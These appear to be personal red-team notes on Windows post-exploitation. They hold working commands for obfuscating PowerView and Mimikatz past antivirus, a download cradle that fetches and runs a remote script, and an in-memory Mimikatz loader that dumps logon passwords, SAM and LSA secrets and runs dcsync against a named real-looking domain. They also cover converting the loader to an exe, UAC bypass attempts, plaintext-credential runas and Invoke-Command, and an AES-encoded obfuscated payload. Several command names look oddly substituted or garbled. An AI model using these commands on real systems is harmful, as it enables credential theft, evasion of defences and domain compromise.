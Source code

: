 # Aes encryption and Decryption of functions

```C#
shifted to aes_encryption.cs
```

# Shellcode loader for 

cn I load aes encypted shellcode from meterpreter into the thing

# trying to obfuscate powerview and mimikatz

https://www.cyberguider.com/bypassing-av-cat-vs-mouse/

Get-MpThreatDetection - this will list all the threats

pyobfuscation works with powerview

 https://github.com/CBHue/PyFuscation.

```
# python PyFuscation.py -fpv --ps powerup.ps1 
```

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.6.12:8000/08012022_08_34_48.ps1');danger
```

a command to modify files in powershell
```
PS C:\> Get-Content D:\MultipleLineExamples.txt | Select -First 10 | Select -Last 1

get-content myfile.txt | select -first 1 -skip 9
```

# uncompressing mimikatz

```
Add-Type -AssemblyName System.IO.Compression.Filesystem
Add-Type -AssemblyName System.IO
$path = "Kitikat_2_2_1.zip"
$zipFile = Get-ChildItem $path -recurse -Filter "*.zip"
$rootArchive = [System.IO.Compression.zipfile]::OpenRead($zipFile.fullname)
$archivesLevel2 = New-object System.IO.Compression.ZipArchive ($rootArchive.Entries[0].Open())
$archivesLevel3 = New-object System.IO.Compression.ZipArchive ($archivesLevel2.Entries[0].Open())
$archivesLevel4 = New-object System.IO.Compression.ZipArchive ($archivesLevel3.Entries[0].Open())
$file =$archivesLevel4.Entries[0].Open()
$reader = New-Object IO.StreamReader($file)
$text = $reader.ReadToEnd()
iex $text
Hartford -Command '"privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "lsadump::dcsync"  "lsadump::dcsync /domain:ksew.com.pk /user:Administrator" "lsadump::dcsync /user:ksew.com.pk\krbtgt" "exit"' > take.txt
```



# converting powershell to exe

`Install-Module -Name ps2exe -RequiredVersion 1.0.10`
`Invoke-ps2exe .\unkitikat.ps1 .\bang.exe`




all done through sed

# fuzzy security

https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-Runas.ps1

invokerunas giving error

```
C:\Users\m\Downloads>powershell "import-module .\invoke_runas.ps1;Invoke-runas"

cmdlet Invoke-Runas at command pipeline position 1
Supply values for the following parameters:
User: WIN10RED
Password: WinR3d@
Binary: C:\Windows\System32\cmd.exe 
LogonType: 0x1

[>] Calling Advapi32::CreateProcessWithLogonW

[+] Success, process details:

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     18       4     1532       2252       0.02    400   1 cmd

```

can we pass with commands


-NoNewWindows start-process

can we again run the binary to get a new much more exploitable version of windows powershell?

This work :

```
C:\Users\m\Downloads>powershell "Start-Process C:\Windows\System32\cmd.exe -NoNewWindow"
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.
```

```
$pass = convertTo-SecureString 'password@123' -AsPlainText -Force;$name="m";$cred = New-Object System.Management.Automation.PSCredential($name,$pass);Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
```

UACbypass from here:

```
C:\Users\m\Downloads>powershell "import-module .\uace_bypass.ps1;Bypass-UAC -Method UacMethodSysprep"

[!] The current user is not part of the Administrator group!
```

otherway is to use https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

we can also create a exe that runs all the commands

using runas 

# working runas command

runas /user:HP "powershell Start-Transcript -Path C:\Users\m\testlog.txt;import-module 'C:\Users\m\invokemimi.ps1';Stop-Transcript"

Bypass-UAC -Method UacMethodTcmsetup

# using invoke-obfuscation

https://blog.geoda-security.com/2018/05/running-obfuscated-version-of-mimikatz.html

`Import-Module .\Invoke-obfuscation.psd1; Invoke-Obfuscation`

set a scriptblock

```
set ScriptBlock "sensationalism -Command coffee"
```
ENCODING > 5 (AES) > 

```
 ( [rUnTime.interOPseRvicEs.mARShAL]::PtRtoStRinGbStr( [RUNTIMe.intEroPSeRVIcEs.marsHal]::sECUrEsTringToBStR( $('76492d1116743f0423413b16050a5345MgB8AGcAdQB6AHMAaQBWAGcAMgB6AGIAegB2AE4AcABuADQAVwBBAFYAcgBRAHcAPQA9AHwANgAzAGEANABmADMAOQA1ADEANwAzADEAYgA3AGUAZQBkAGEAMgBiADMANAA1AGMANwBhAGYAYwBlAGEANAAyADAAMwA0AGMAMAAxADcAMQBmAGIAMgBhADMANQBlADcAMAA5ADcAZgAyADkAZgA2AGIAZQA0AGQAYQAzADMAYwA0ADMANwA1AGUAMwA1AGUAZgA2AGIAOQA3AGUANQAyAGIAZgAzAGEANQA0AGYAZABkAGYAMQBmADEANwBkADEAMwA1AGIAMgA1ADgAMABmADQAYwBmADIAMgBkAGUAYQA2AGYAMwBlADkAMAAyADAAYgA2AGQAMgA1AGMAMgA0AA==' |CoNVErttO-SecurestrinG  -Ke 8,235,214,3,211,95,255,197,77,221,129,59,109,255,134,188)) ) ) | &((GV '*MDr*').NAME[3,11,2]-JoIn'')
```